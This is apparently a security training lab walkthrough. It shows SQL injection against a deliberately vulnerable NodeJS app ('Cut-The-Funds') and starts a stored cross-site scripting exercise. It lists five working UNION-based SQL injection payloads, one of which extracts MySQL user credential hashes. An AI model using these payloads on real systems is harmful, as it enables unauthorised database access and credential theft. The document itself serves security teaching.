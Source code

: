 ![SQLi Search Error](sqli_search_error.png)

Now that we have established that SQL Injection is possible, let's start exploring SQL Injection Attacks against the application

	```
	India' UNION ALL SELECT null, (SELECT @@datadir)--  
	India' UNION ALL SELECT null, (SELECT @@version)-- 
	India' UNION ALL SELECT null, (SELECT user())-- 
	India' UNION ALL SELECT null, (SELECT database())--  
	India' UNION ALL SELECT null,(SELECT concat(user,':',authentication_string) from mysql.user LIMIT 1)-- 
	```
* Each of the above is an SQL Injection payload. Copy each payload and inject them in the search parameter by pasting the payload in the search field in the top right corner. Click the search button to execute the payload
* Observe the results

### Vulnerable Code - SQL Injection
* Open Terminal
* Command: `cd /home/we45/Desktop/sources/Cut-The-Funds-NodeJS`
* Command: `mousepad controllers/project.controller.js`
* Mousepad opens up
	* goto line 125 and look at the vulnerable SQL call


## Cross-Site Scripting - Persistent
## Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* If you have already started Node, then you dont need to do the next step
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
First, we need to create an expense, and embed a cross site scripting payload in the one of the fields of the expense object.

1. For that, we need to login as user. In the sidebar you will find an option "Login User"

![Login User](login_user.png)

2. he request should already be filled out with user, Maya's email and password. You can just hit send on that requests

![Send Request](send_insomnia.png)
